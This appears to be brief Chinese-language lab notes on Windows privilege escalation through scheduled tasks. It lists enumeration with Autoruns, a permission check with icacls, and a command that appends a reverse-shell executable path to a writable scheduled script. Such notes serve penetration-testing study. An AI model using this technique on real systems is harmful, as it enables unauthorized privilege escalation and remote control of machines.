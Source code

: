 # 计划任务

1. 显示计划任务 Autoruns
2. 查看权限（可写） icacls "C:\Missing Scheduled Binary"
3. 覆盖 echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
